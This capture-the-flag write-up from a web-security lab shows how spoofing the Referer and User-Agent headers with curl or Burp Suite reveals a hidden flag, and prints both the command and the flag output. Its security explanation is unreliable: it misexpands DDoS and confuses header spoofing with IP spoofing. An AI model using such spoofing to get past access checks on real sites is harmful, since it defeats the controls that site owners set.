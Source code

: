 # Spoof Curl
On this link [http://192.168.8.121/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c](http://192.168.8.121/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c) There are comments that are clues to getting a flag the first one 
``` html
<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->
```
The other says 
``` html
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

## Methods
So we then change the ***referer*** to [https://www.nsa.gov/](https://www.nsa.gov/) and the user-agent to ***ft_bornToSec***.

This can be accomplised using ***Burpsuite*** and ***Curl***.

Using ***Burpsuite*** we can intercept a request and then change the values in the header.

Using ***Curl*** we can have the following command in the terminal.

```bash
curl http://10.203.72.119/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c -H 'Referer:https://www.nsa.gov/' -H 'User-agent:ft_bornToSec' | grep "flag"
```
The output
```html
<h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

## Issues
Spoofing is dangourous because a hacker can pretend to be someone else by performing ***ip spoofing***. Hacker tend to use this exploit to preform DDOS (Direct Denial Of Service)

## Solution
There are tools, to monitor the network that, try to help detect spoofing.




































